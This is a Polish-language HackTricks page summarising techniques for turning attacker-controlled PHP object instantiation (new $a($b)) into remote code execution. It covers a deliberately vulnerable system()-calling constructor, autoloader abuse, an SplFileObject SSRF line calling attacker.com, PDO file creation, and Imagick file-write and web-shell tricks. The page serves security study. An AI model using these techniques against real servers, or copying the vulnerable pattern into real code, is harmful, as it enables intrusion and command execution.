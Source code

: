 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

To jest w zasadzie podsumowanie [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Wprowadzenie

Tworzenie nowych, dowolnych obiektów, takich jak `new $_GET["a"]($_GET["a"])`, może prowadzić do zdalnego wykonania kodu (RCE), jak szczegółowo opisano w [**artykule**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Dokument ten podkreśla różne strategie osiągania RCE.

## RCE za pomocą klas niestandardowych lub autoloadingu

Składnia `new $a($b)` jest używana do instancjonowania obiektu, gdzie **`$a`** reprezentuje nazwę klasy, a **`$b`** jest pierwszym argumentem przekazywanym do konstruktora. Te zmienne mogą pochodzić z danych wejściowych użytkownika, takich jak GET/POST, gdzie mogą być ciągami lub tablicami, lub z JSON, gdzie mogą występować jako inne typy.

Rozważ poniższy fragment kodu:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
W tym przypadku ustawienie `$a` na `App` lub `App2` oraz `$b` na polecenie systemowe (np. `uname -a`) skutkuje wykonaniem tego polecenia.

**Funkcje autoloading** mogą być wykorzystywane, jeśli takie klasy nie są bezpośrednio dostępne. Te funkcje automatycznie ładują klasy z plików w razie potrzeby i są definiowane za pomocą `spl_autoload_register` lub `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Zachowanie autoloadingu różni się w zależności od wersji PHP, oferując różne możliwości RCE.

## RCE za pomocą klas wbudowanych

Brakując niestandardowych klas lub autoloaderów, **wbudowane klasy PHP** mogą wystarczyć do RCE. Liczba tych klas waha się od 100 do 200, w zależności od wersji PHP i rozszerzeń. Można je wylistować za pomocą `get_declared_classes()`.

Konstruktory, które mogą być interesujące, można zidentyfikować za pomocą API refleksji, jak pokazano w poniższym przykładzie oraz w linku [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE za pomocą konkretnych metod obejmuje:**

### **SSRF + Deserializacja Phar**

Klasa `SplFileObject` umożliwia SSRF poprzez swój konstruktor, pozwalając na połączenia z dowolnym URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF może prowadzić do ataków deserializacji w wersjach PHP przed 8.0 przy użyciu protokołu Phar.

### **Wykorzystywanie PDOs**

Konstruktor klasy PDO umożliwia połączenia z bazami danych za pomocą ciągów DSN, co potencjalnie umożliwia tworzenie plików lub inne interakcje:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Wersje PHP do 5.3.22 i 5.4.12 były podatne na ataki XXE za pośrednictwem konstruktorów `SoapClient` i `SimpleXMLElement`, w zależności od wersji libxml2.

## RCE za pomocą rozszerzenia Imagick

W analizie **zależności projektu** odkryto, że **Imagick** może być wykorzystany do **wykonywania poleceń** poprzez instancjonowanie nowych obiektów. Stwarza to możliwość wykorzystania luk w zabezpieczeniach.

### Parser VID

Zidentyfikowano zdolność parsera VID do zapisywania treści w dowolnie określonej ścieżce w systemie plików. Może to prowadzić do umieszczenia powłoki PHP w katalogu dostępnym przez sieć, osiągając zdalne wykonanie kodu (RCE).

#### Parser VID + przesyłanie plików

Zauważono, że PHP tymczasowo przechowuje przesyłane pliki w `/tmp/phpXXXXXX`. Parser VID w Imagick, wykorzystując protokół **msl**, może obsługiwać znaki wieloznaczne w ścieżkach plików, co ułatwia przeniesienie tymczasowego pliku do wybranej lokalizacji. Ta metoda oferuje dodatkowe podejście do osiągnięcia dowolnego zapisu plików w systemie plików.

### Awaria PHP + Brute Force

Metoda opisana w [**oryginalnym opisie**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) polega na przesyłaniu plików, które powodują awarię serwera przed usunięciem. Poprzez brute-forcing nazwę tymczasowego pliku, możliwe jest, aby Imagick wykonał dowolny kod PHP. Jednak ta technika okazała się skuteczna tylko w przestarzałej wersji ImageMagick.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
